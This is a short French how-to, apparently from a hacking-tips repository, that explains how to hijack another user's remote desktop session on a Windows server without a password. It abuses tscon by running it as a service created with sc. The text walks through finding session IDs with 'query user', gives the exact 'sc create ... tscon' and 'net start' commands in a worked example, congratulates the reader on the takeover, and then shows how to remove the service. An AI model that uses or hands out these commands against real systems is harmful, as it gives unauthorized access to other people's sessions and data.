 # Hijack session pc distant avec la faille tscon

# tscon
Cette commande est utilisée pour se connecter sur une autre session d'un PC distant (serveur par ex.).
Elle nécessite le nom de destination et l'ID de session pour s'exécuter.

# query user
Cette commande permet d'afficher la liste et informations de session de tous les utilisateurs s'ayant déjà connecté au serveur distant.
Utile ici pour récupérer le nom de destination et l'ID de session à hijacker.

# service
Cette commande permet de voler (hijacker) la session de n'importe quelle cible, sans mot de passe (password bypassing) :
*<process_name> est le nom du service à créer (nom bidon, aucune importance, faudra juste arrêter le service avec le meme nom ensuite)
<user 2_ID> est l'**ID** (numéro d'identification) de la **session-cible**, celle à hijacker
<session_name> est le nom de **votre** session*
```
sc create <process_name> binpath= "cmd.exe /k tscon <user 2_ID> /dest:<session_name>"
```

# Exemple
commande query user à lancer dans un terminal (cmd, powershell...) :
![query user](https://github.com/Sefiria/ConseilHack/blob/4f5599508ecff62dee4d58175405257ac78a1636/Documentation/En%20vrac/res/Hijack%20session%20pc%20distant%20annexe.png)

Exécuter ensuite la commande du paragraphe "service" ainsi que celle pour démarrer le service, exemple ici :
*Nous sommes dans cet exemple Titi, et souhaitons voler la session de Toto
*<process_name> = hijack (nom du service - le nom n'a pas d'importance)
<user 2_ID> = 8 (ID de la session-cible)
<session_name> = rdp-tcp#1 (nom de notre session actuelle)*
```
sc create hijack binpath= "cmd.exe /k tscon 8 /dest:rdp-tcp#1"
net start hijack
```
**Félicitations, vous venez d'Hijacker une session distante via une faille de tscon exécuté par service sans mot de passe.**
Comprenez alors l'importance de sécuriser, logger les sessions utilisateurs.
**N'oubliez pas de stopper le service une fois avoir fini avec la commande *net stop <process_name>*** :
```
net stop hijack
```
